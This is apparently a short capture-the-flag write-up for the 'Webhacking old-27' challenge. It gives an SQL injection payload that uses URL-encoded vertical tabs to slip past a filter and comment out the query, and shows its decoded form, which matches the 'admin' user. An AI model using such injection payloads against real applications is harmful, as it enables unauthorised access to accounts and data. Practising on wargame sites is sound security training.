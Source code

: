 ```yaml
---
layout: default
title: old-27
---
```


# Webhacking old-27 Solution

we will insert this payload:
`0)||id%0blike%0b%27admin%27--%0b`

this is equivalent to this:
`0) or id like 'admin'-- `
